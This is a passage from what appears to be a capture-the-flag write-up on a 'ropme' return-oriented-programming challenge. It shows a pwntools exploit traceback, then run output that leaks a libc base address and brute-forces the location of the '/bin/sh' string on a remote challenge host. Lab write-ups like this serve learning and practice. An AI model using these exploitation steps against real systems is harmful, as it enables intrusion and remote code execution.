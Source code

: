 ```bash
  File "/home/kali/Downloads/remote_exploit.py", line 97, in <module>
    main()
  File "/home/kali/Downloads/remote_exploit.py", line 92, in main
    exploit(p, puts_offset, system_offset, bin_sh_offset)
  File "/home/kali/Downloads/remote_exploit.py", line 55, in exploit
    print('Enum', p.recvline())
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 490, in recvline
    return self.recvuntil(self.newline, drop = not keepends, timeout = timeout)
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 333, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 105, in recv
    return self._recv(numb, timeout) or b''
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 183, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 154, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/sock.py", line 58, in recv_raw
    raise EOFError
EOFError
[*] Closed connection to 159.65.54.14 port 30989
```

%s%s%s%s%s%s, heh? Therefore, the main reason for offset from the tool didn't work because the system can not execute the string on provided address. Then, I just rewrite my exploit to brute force the offset and found /bin/sh string!

```bash
python3 remote_exploit.py remote
[+] Opening connection to 159.65.54.14 on port 30989: Done
[*] '/home/kali/Downloads/ropme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
b"ROP me outside, how 'about dah?\n"
b'7f73bbdae690'
[BASE] libc: 0x00007f73bbd3f000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'\n' 1625423
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7fced3fbe690'
[BASE] libc: 0x00007fced3f4f000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7f45dff5d690'
[BASE] libc: 0x00007f45dfeee000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7ff5791fa690'
[BASE] libc: 0x00007ff57918b000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'GVERB\n' 1625399
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
```

[LEAKING /bin/sh]: b'ize.c\n' 1625391
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367